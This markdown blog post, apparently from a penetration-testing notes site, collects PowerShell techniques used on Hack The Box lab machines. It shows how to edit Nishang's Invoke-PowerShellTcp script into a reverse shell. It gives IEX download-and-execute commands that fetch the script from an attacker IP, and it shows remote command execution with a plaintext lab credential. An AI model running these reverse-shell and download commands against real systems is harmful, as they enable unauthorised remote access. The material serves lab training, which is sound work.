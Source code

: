 ```yaml
---
description: >-
  Powershell Modules
title: Powershell Modules              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Modules]                     # Change Templates to Writeup
tags: [file transfer, powershell modules]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Nishang
If we want to add a .ps1 file into a Windows machine such as the [Nishang](https://github.com/samratashok/nishang) series we can modify the latest line of such file (to load the script and then execute it):
```powershell
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
```
Then we can execute it by using the following command on the compromised machine:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```
Examples:
[[Anubis#^bcdb9e]]

### Invoke-Command
Module to execute commands on the specified machine:
```powershell
PS> $Password = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $Password)
*PS> Invoke-Command -ComputerName dc01 -Credential $Creds -ScriptBlock { whoami }
```
Examples:
[[Fulcrum#^0145f0]]

### Get-SMBShare
Retrieves the local shares:
```powershell
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```
Examples:
[[Fulcrum#^cae2ef]]

### Select-String (Search String Pattern)
Search files on the system
```powershell
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern Administrator
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern 923a
```
Example:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:select-string)

### AD CS
TODO
[[Anubis]]

### Invoke-PowerShellTCP
In order to connect to get a reverse shell with powershell we can abuse of the [Invoke-PowerShellTCP.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) all we need to do is modify the very bottom of this .ps1 file as follows:
```powershell
# Invoke-PowerShellTCP.ps1
------------------------SNIP---------------------------
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.2 -Port 443 -Rows 37 -Cols 189
```
> To get the file in rows and columns of the screen we can execute the stty size on our attacker machine.
{: .prompt-info }

Then from the shell we get, we only need need to execute the followin powershell command:
```powershell
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/Invoke-PowerShellTcp.ps1')"
```

> Don't forget to open your listener with netcat locally.
{: .prompt-tip }
Examples:
[Streamio](https://shuciran.github.io/posts/Streamio/#fnref:invoke-powershelltcp-ps1)
[[Anubis]]

